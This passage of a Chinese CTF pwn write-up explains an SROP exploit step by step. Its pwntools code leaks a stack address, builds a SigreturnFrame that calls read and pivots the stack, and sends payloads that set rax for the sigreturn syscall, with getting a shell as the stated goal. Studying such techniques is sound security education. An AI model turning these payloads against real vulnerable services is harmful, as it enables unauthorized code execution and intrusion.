 #利用 sys_read 随便读取一个字符，设置 rax = 1，由于 retn 关系，rsp 下拉了一个单位，所以这里会读入到原先的 rsp+0x8 处，也就是从原先的 Payload 中第 8 个字符开始，抽取一个字符，就是 set_rsi_rdi_addr 的最后一个字节，为了不改变返回地址。如果写成：io.send(‘\xb8’) 效果一样，都是为了不改变返回地址。之后再执行 set_rsi_rdi_addr 从而执行 write 函数，

```
#注释头
 
stack_addr = u64(io.recv()[8:16]) + 0x100
#从最初的rsp+0x10开始打印400字节数据，那么从泄露的数据中抽取栈地址，+0x100防止栈数据过近覆盖
log.info('stack addr = %#x' %(stack_addr))

```

7. 这里可以看到成功泄露了一个栈地址，但是不能再用简单读入 binsh 字符串之后设置 SigreturnFrame 结构体来 getshell，因为这里设置读入地址是通过 rsp 设置的。如果将 rsp 设置为我们想读入 binsh 的栈地址，那么肯定是可以读入 binsh 字符串的，但是当程序运行到 retn 时，跳转的是 binsh 这个地址，这是不合法的，没办法跳转，程序会崩溃。

这里就考虑使用 SigreturnFrame() 来进行栈劫持，将整个栈挪移到目的地。

(1) 首先布置 SigreturnFrame() 的栈空间，进行栈劫持：

```
#注释头
 
frame_read = SigreturnFrame() 
#设置read的SROP帧，不使用原先的read是因为可以使用SROP同时修改rsp，实现stack pivot
frame_read.rax = constants.SYS_read        #调用read读取payload2
frame_read.rdi = 0                         #fd参数
frame_read.rsi = stack_addr                #读取payload2到rsi处
frame_read.rdx = 0x300                     #读取长度为0x300
#读取的大小
frame_read.rsp = stack_addr                #设置SROP执行完的rsp位置
#设置执行SROP之后的rsp为stack_addr，里面存的是start_addr，retn指令执行后从start开始。
frame_read.rip = syscall_addr              #设置SROP中的一段代码指令

```

(2) 发送 payload。

```
#注释头
 
payload1 = ""
payload1 += p64(start_addr)        #读取payload[8:8+15]，设置rax=0xf0
payload1 += p64(syscall_addr)      #利用rax=0xf0,调用SROP
payload1 += str(frame_read)
io.send(payload1)
sleep(3)
io.send(payload1[8:8+15])
#为rax赋值为0xf0
sleep(3)

```

程序运行 SROP 过程中，会执行 read 函数，将 payload2 读取到 stack_addr 处，所以当程序运行完 SROP 后，栈顶 rsp 被劫持到 stack_addr 处，同时 stack_addr 上保存的内容是 payload2，首地址是 start，所以 retn 执行后仍旧从 start 开始。
